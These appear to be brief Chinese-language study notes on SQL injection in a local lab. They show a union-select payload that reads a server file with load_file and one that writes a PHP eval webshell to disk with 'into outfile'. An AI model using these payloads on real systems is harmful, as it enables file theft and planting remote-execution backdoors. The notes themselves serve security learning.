 读取d盘下的123.txt文件

```
union select 1,2,3,load_file("d:\\123.txt"),5,6
```

![image-20240317154807993](../图片/image-20240317154807993.png)



写入后门代码

```
union select 1,2,3,4,"<?php eval($_POST[pass]);?>",6 into outfile "D://studying/demo01/123.php"
```



![image-20240317161251729](../图片/image-20240317161251729.png)
